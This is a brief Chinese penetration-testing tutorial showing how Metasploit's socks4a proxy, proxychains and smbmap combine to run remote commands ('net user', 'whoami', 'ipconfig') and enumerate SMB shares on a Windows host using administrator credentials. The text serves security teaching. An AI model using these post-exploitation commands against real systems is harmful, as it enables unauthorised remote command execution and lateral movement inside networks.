 msf 在配合其它框架攻击，可补充 msf 本身的不足以及强化攻击方式，优化攻击线路。本季将会把 msf 与 Smbmap 结合攻击。弥补 msf 文件搜索以及文件内容搜索的不足。

项目地址：https://github.com/ShawnDEvans/smbmap

* 支持传递哈希  
* 文件上传/下载/删除  
* 可枚举（可写共享，配合Metasploit）  
* 远程命令执行  
* 支持文件内容搜索  
* 支持文件名匹配（可以自动下载）  
* msf配合Smbmap攻击需要使用到sock4a模块

```bash
msf auxiliary(server/socks4a) > show options
```
![](/img/f7b132114e46760984cd298213740f4d.jpg)

该模块socks4a加入job
```bash
msf auxiliary(server/socks4a) > jobs
```
![](/img/c38221c680e3e078414ebb4cfe8ecb66.jpg)

配置proxychains，做结合攻击铺垫。
```bash
root@John:/tmp# cat /etc/proxychains.conf
```
![](/img/9fb4144cb5b4c7825b4ad698f740f3f5.jpg)  

![](/img/33f8922e2c8e134f96f3ca546e96c420.jpg)

支持远程命令

```bash
root@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'net user'
```
![](/img/0d745135d03f66c1ec9bc97c844730f5.jpg)  

```bash
root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'whoami'
```
![](/img/c7d86f93c68a049ada011d3067384b07.jpg)

枚举目标机共享
```bash
root@John:/tmp# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐d ABC
```
![](/img/e28af8ca88f58bb38cf7e10087ab35d6.jpg)

```bash
root\@John:/tmp\# proxychains smbmap ‐u administrator ‐p 123456 ‐d wordk group ‐H 192.168.1.115 ‐x 'ipconfig'
```
![](/img/123a8b0a7824f57dd5a78f5861b8baea.jpg)

Smbmap支持IP段的共享枚举，当然Smbmap还有更多强大的功能等待探索。

> Micropoor
